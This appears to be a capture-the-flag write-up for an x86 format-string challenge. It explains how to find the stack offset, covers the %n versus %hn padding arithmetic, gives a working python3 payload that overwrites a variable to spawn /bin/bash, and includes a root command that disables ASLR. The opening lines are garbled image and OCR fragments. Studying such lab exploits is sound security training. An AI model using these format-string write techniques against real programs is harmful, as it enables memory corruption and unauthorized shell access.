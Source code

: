 0xffffc818 + (3735928559 - 4 )x + %9$n 

0xffffc7d8 +  0xffffc7da  + (48879 - 8)x + $9%hn + (57005 - 48879)x + %10$hn






# ELF x86 - Format string bug basic 2

## Vulnerability summary

The program contains a user-controlled format string:

```c
snprintf(fmt, sizeof(fmt), argv[1]);
```

`argv[1]` is used as the format string with **no arguments** — you can use `%x`, `%p`, `%n`, `%hn`, `%hhn`, etc., to *read* stack values and to *write* arbitrary bytes to arbitrary locations using `%n` family format specifiers. The goal is to change:

```c
int check = 0x04030201;
```

to `0xDEADBEEF` so that the program executes `system("/bin/bash")`.

**Important test / info prints**:

```
printf("check at 0x%x\n", &check);
```

Run `./chall dummy` to get the actual printed address of `check`. You will use that address in the payload.

**Make testing stable**: disable ASLR while testing:

```bash
# run as root
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```


![same](./img/same.png)

now the value will be same


---


## offset

we can find the offfset like 

![leaks](./img/LEAKS.png)

here we can see that the buffer is at `9`th offset


## using `%n`

lets say that the address leak is `0xffffc818` so now we can write at this address by using this approch

```bash
0xffffc818 + (3735928559 - 4 )x + %9$n 
```

we have to write `0xdeadbeef` which is `3735928559` in decimal but we have printed 4 bytes (`0xdeadbeef`) before it so we also have to substract it 

`%x` prints an integer argument in hexadecimal. When you write %1234x, 1234 is treated as a field width, so printf will print the next integer argument right-justified in a field of width 1234 — that means it will output many padding characters (usually spaces) before the printed hex text. That produces the large character count exploited by %n/%hn.


we could also have used `%c` it also can be used here

where 9 is the offset and `%n` tells printf to write the number of bytes already printed into the memory location pointed to by the corresponding argument. 



## Why `0xffffc818 + (3735928559 - 4)x + %9$n` is impractical

* `3735928559` decimal = `0xDEADBEEF`. The expression attempts to print `3735928559 - 4 = 3735928555` characters before issuing a `%n`.
* Printing ~3.7 billion characters in a format string is **impractical** (very slow, may be truncated or prohibited by libc limits, and may crash).
* `%n` writes the full 32/64-bit value of the printed character count. On many systems you can’t rely on being able to produce that exact huge count.

**Safer alternatives**:

* Use two `%hn` writes to write the low and high 16 bits (typical and efficient).
* Or use four `%hhn` byte writes (one byte at a time) to avoid huge paddings.
* Or use `%n` combined with integer wrapping (but that still requires huge output or clever wraps).

Conclusion: do **not** use a single huge `%n`. Use `%hn` or `%hhn`.

---

## Two-`%hn` approach (recommended) — theory

To write `0xDEADBEEF` into a 32-bit `int` at address `addr`:

* split into 16-bit halves:
  `low  = 0xBEEF` (48879 decimal)
  `high = 0xDEAD` (57005 decimal)

* Place two little-endian addresses at the start of `argv[1]`:

  ```bash
  [addr (4 bytes little-endian)] [addr+2 (4 bytes little-endian)] [format-string...]
  ```

  The first `%hn` will write the current printed count into `addr` (low 16 bits), the second `%hn` will write into `addr+2` (high 16 bits).

* Because the addresses themselves already contribute bytes to the printed count, subtract those bytes when computing the first padding.


### padding math

If you put 2 addresses (8 bytes) at the start:

* initial_len = 8
* pad1 = (low - initial_len) mod 65536
  (e.g. `48879 - 8 = 48871`)
* After first write the printed count ≡ `low` (48879). To reach `high` (57005), pad2 = `(high - low) mod 65536`
  (e.g. `57005 - 48879 = 8126`)

So the format piece is:
`%48871x%9$hn%8126x%10$hn`



---



## Worked example 

You gave the expression:

```
0xffffc7d8 + 0xffffc7da + (48879 - 8)x + %9$hn + (57005 - 48879)x + %10$hn
```

That corresponds to:

* addr = `0xffffc7d8` (first address)
* addr+2 = `0xffffc7da` (second address)
* initial_len = 8 (two 4-byte addresses)
* pad1 = `48879 - 8 = 48871`
* pad2 = `57005 - 48879 = 8126`
* parameter indices used = `%9$` and `%10$` (these are examples — make sure they match your probe results)

### using python

```bash
./chall "$(python3 -c 'import sys; sys.stdout.buffer.write(b"\xd8\xc7\xff\xff\xda\xc7\xff\xff" + b"%48871x%9$hn%8126x%10$hn")')"
```

Explanation:

* `b"\xd8\xc7\xff\xff"` is `struct.pack("<I", 0xffffc7d8)`
* `b"\xda\xc7\xff\xff"` is `struct.pack("<I", 0xffffc7da)`
* `b"%48871x%9$hn%8126x%10$hn"` is the format string doing first and second `%hn`.

If `9`/`10` are wrong for your binary, change them.

---

## result:

![result](./img/result.png)